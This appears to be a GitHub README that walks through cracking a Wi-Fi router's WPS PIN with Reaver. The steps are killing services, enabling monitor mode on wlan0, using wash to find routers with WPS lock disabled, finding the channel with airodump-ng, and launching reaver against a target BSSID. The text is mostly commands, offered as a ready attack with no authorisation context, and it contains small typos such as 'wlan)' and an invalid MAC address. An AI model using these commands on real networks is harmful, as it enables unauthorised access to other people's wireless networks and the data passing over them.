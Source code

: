 # Cracking-Pin-with-Reaver

## Tools required
- Kali linux or any Linux OS
- Reaver
- Airodump
- wash

## Monitoring mode for Network Adaptor

- First kill the services that are interrupting for monitor mode .
```
airmon-ng check kill
```

- Now run the below commands to enable monitor mode.
```
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan) up
```

## Check if target wifi router Lock Disabled.

- We need to check whether the target wifi router lock is disabled so run the below command .
```
wash -i wlan0
```

![image](https://github.com/Kamalesh-Seervi/Cracking-Pin-with-Reaver/assets/107933310/e924f727-fe43-463a-a852-3d23348e71a8)

- We see that above lck for routers are `No` so we are good to go .

## Reaver 
- Now we use reaver tool to crack the pin.
- Before that we need to know the `channel` of the wifi network so run airodump to find it.
```
airodump-ng wlan0
```

- Now lets start the reaver type the below command.
```
reaver -b 90:F6:53:C4:GG:17 -i wlan0 -c 8 -vv
```
<img width="974" alt="image" src="https://github.com/Kamalesh-Seervi/Cracking-Pin-with-Reaver/assets/107933310/eec320fb-a950-4966-99f5-f063e97af69e">
